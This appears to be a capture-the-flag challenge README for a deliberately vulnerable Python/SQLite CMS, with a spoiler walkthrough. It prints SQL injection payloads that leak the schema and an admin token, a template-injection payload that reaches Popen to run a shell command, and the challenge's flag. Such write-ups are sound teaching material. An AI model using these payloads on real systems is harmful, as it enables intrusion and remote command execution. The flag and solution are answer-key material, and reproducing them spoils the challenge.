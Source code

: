 # Content Mangling System

## Authors
* todo

## Category
* Web

## Tags
* SQLI

## Description
Ever wanted to have WordPress but less bloated? I've made a new, secure, and lightweight CMS solution based on sqlite.
In just 80 lines of python we are able to do 1% of what WordPress can, and whats more, we have no php!

## Difficulty
* medium

## Points
100

## Hints
N/A

## Files
* solve.py
* src: Challenge Source

## Setup
* Run docker build
* Ensure that a network firewall prevent access to AT LEAST the metadata endpoint is present

## Solution
<details>
<summary>spoiler</summary>

_Code can be found in `solve.py`_

### Description
In this challenge we utilize a sql injection in order to retrieve a admin token. Using the admin token we then create a new page containing a template injection payload.

### Sql Injection
We notice the presence of a sql injection vulnerability in the url. For instance, navigating to `/'` results in a Internal Server Error. We aim to exploit this to leak the database schema, followed by any secrets.

#### Table Schema
After playing around we arrive at a payload that looks like
```
/nonexistant' UNION SELECT sql,'a','b' FROM sqlite_master LIMIT 1 OFFSET 1 --
```

However submitting this, we still get asked for a token. It's reasonable to assume that the token must also be fetched from the database and that we should try out one of our dummy values as the token. In this case sending the following leaks the schema of the `pages` table.
```
/nonexistant' UNION SELECT sql,'a','b' FROM sqlite_master LIMIT 1 OFFSET 1 -- ?token=b

CREATE TABLE pages ( id INT PRIMARY KEY, route TEXT UNIQUE NOT NULL, title TEXT NOT NULL, template TEXT NOT NULL, auth TEXT )
```

Less intuitively setting `'b'` to `NULL` also works, as this is how the system detects non-authorized pages. This isn't nesseary for a solve, but we will use this for the rest of the explanation as its shorter to write.
```
/nonexistant' UNION SELECT sql,'a',NULL FROM sqlite_master LIMIT 1 OFFSET 1 --
```

#### Token leak
We can then use a similar payload to above to leak the token. The route can be trivially found on the main page.
```
/nonexistant' UNION SELECT auth,'a',NULL FROM pages WHERE route='admin' --
```

### Template injection
Using this token to access the admin page gives us access to page creation. Using this we create a page with a template injection payload on it
```
{{ "".__class__.__mro__[1].__subclasses__() }}
```

Navigating to this page executes the payload and returns a list of loaded classes on the page.

We look for the `gevent.subprocess.Popen` class (or really any class of your choice) as we can use to to execute shell commands.

We create a new page with a reference to the `Popen` class, and pass it a shell command `cat /flag`. This will get us the flag.
```
    'template': '{{ "".__class__.__mro__[1].__subclasses__()[<index of Popen>](<Shell>, stdout=-1).stdout.read().decode() }}',

```

### Flag
`ATLASSIAN{Pr0b4blY_st1LL_BEtt3r_tH4n_m0odLE}`
</details>
